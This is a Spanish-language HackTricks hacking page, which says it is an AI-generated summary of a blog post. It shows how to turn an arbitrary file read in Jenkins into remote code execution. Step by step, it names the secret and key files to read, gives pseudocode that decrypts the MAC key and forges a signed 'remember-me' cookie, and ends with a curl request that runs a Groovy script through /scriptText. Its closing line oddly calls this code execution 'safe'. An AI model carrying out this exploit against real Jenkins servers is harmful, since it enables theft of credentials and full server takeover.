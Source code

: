 # Jenkins Lectura Arbitraria de Archivos a RCE a través de "Recordarme"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

En esta publicación del blog es posible encontrar una gran manera de transformar una vulnerabilidad de Inclusión de Archivos Local en Jenkins en RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este es un resumen creado por IA de la parte de la publicación donde se abusa de la creación de una cookie arbitraria para obtener RCE abusando de una lectura de archivos local hasta que tenga tiempo para crear un resumen por mi cuenta:

### Requisitos Previos del Ataque

* **Requisito de Funcionalidad:** "Recordarme" debe estar habilitado (configuración predeterminada).
* **Niveles de Acceso:** El atacante necesita permisos de Lectura/General.
* **Acceso Secreto:** Capacidad para leer tanto contenido binario como textual de archivos clave.

### Proceso de Explotación Detallado

#### Paso 1: Recolección de Datos

**Recuperación de Información del Usuario**

* Acceder a la configuración del usuario y secretos desde `$JENKINS_HOME/users/*.xml` para cada usuario para recopilar:
* **Nombre de usuario**
* **Semilla del usuario**
* **Marca de tiempo**
* **Hash de contraseña**

**Extracción de Claves Secretas**

* Extraer claves criptográficas utilizadas para firmar la cookie:
* **Clave Secreta:** `$JENKINS_HOME/secret.key`
* **Clave Maestra:** `$JENKINS_HOME/secrets/master.key`
* **Archivo de Clave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Paso 2: Falsificación de Cookies

**Preparación del Token**

*   **Calcular Tiempo de Expiración del Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Agrega una hora al tiempo actual
```
{% endcode %}
*   **Concatenar Datos para el Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Desencriptación de la Clave MAC**

*   **Desencriptar Archivo de Clave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertir clave maestra a formato de clave AES128
decrypted = AES.decrypt(macFile, key)  // Desencriptar el archivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo de la Firma**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcular HMAC usando el token y la clave MAC
tokenSignature = bytesToHexString(mac)  // Convertir el MAC a una cadena hexadecimal
```

**Codificación de la Cookie**

*   **Generar Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificar en Base64 los datos de la cookie
```
{% endcode %}

#### Paso 3: Ejecución de Código

**Autenticación de Sesión**

* **Obtener Tokens CSRF y de Sesión:**
* Hacer una solicitud a `/crumbIssuer/api/json` para obtener `Jenkins-Crumb`.
* Capturar `JSESSIONID` de la respuesta, que se utilizará junto con la cookie de recordar.

**Solicitud de Ejecución de Comando**

*   **Enviar una Solicitud POST con Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* El script Groovy se puede utilizar para ejecutar comandos a nivel de sistema u otras operaciones dentro del entorno de Jenkins.

El comando curl de ejemplo proporcionado demuestra cómo hacer una solicitud a Jenkins con los encabezados y cookies necesarios para ejecutar código arbitrario de manera segura.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
